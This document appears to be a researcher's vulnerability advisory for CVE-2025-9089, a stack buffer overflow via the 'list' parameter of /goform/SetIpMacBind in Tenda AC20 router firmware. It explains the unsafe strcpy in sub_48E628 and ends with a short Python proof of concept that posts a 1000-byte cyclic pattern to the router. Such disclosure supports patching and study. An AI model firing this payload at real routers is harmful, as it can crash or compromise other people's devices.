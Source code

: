 # Stack-Based Buffer Overflow in Tenda AC20 (firmware V16.03.08.12) fromSetIpMacBind

## Summary

A stack-based buffer overflow vulnerability in the Tenda AC20 router (firmware V16.03.08.12) allows unauthenticated remote attackers to execute arbitrary code or cause denial of service (DoS) via the `list` parameter in the `/goform/SetIpMacBind` endpoint. The flaw resides in the `sub_48E628` function, which processes the `list` input using the unsafe `strcpy` function without bounds checking, leading to stack memory corruption.

## Details



*   **Vendor**: Tenda

*   **Product**: Tenda AC20

*   **Firmware Version**: V16.03.08.12

*   **Firmware Download**: [https://www.tenda.com.cn/material/show/3264](https://www.tenda.com.cn/material/show/3264)

*   **Component**: `/goform/SetIpMacBind`

*   **Vulnerability Type**: Stack-Based Buffer Overflow (CWE-121)

*   **CVE ID**: CVE-2025-9089

*   **Reported by**: n0ps1ed (n0ps1edzz@gmail.com)

## Description

The vulnerability exists in the processing chain of the `list` parameter in the `fromSetIpMacBind` function and its dependent `sub_48E628` function. The call chain and key operations are as follows:



1.  **Parameter Retrieval**: The `list` parameter is retrieved via `websGetVar` in `fromSetIpMacBind` and passed to `sub_48E628` for IP-MAC binding rule processing. The `bindnum` parameter specifies the number of binding rules to process.

2.  **Rule Parsing**: `sub_48E628` is called iteratively to process each rule in `list`. It splits the input by the delimiter (ASCII 10, line feed) using `strchr`, treating each segment as an individual IP-MAC binding rule.

3.  **Unsafe Copy**: For each split rule segment, the critical unsafe operation occurs:

*   `strcpy(v4, (char *)*a2)`: Copies the user-controlled rule segment (`*a2`, derived from `list`) into `v4`, a fixed-size 128-byte stack buffer.

*   `strcpy` does not validate the length of the input against the size of `v4`. If the rule segment exceeds 127 bytes (plus the null terminator), it will overflow the `v4` buffer.

4.  **Subsequent Parsing**: After the unsafe copy, `sscanf` is used to parse fields from `v4` (e.g., device name, MAC address, IP address). However, the prior `strcpy` already introduces the overflow risk, as the buffer may have already been corrupted before parsing.

If the user-controlled `list` parameter contains a rule segment longer than 127 bytes, `strcpy(v4, (char *)*a2)` will overflow the 128-byte `v4` buffer, overwriting adjacent stack memory (including return addresses, saved registers, and other critical stack data). This allows an attacker to corrupt the stack and potentially execute arbitrary code.
![PoC 2 Result: Root Directory Listing](./imgs/0.png)
![PoC 2 Result: Root Directory Listing](./imgs/1.png)
## PoC: Python Exploit Script



```
from pwn import *
import requests
url = "http://192.168.xxx.xxx/goform/SetIpMacBind"
cookie = {"Cookie":"password=rfl1qw"}
data = {"bindnum": "1","list": cyclic(1000)}
res = requests.post(url, cookies=cookie, data=data)
res = requests.post(url, cookies=cookie, data=data)
print(res.text)
```
![PoC 2 Result: Root Directory Listing](./imgs/2.png)

This script sends a crafted `list` parameter containing an overly long IP-MAC binding rule segment. When processed by `sub_48E628`, the `strcpy(v4, (char *)*a2)` call will overflow the `v4` buffer, causing stack corruption. Successful exploitation may result in arbitrary code execution or a denial of service condition (router crash/reboot).
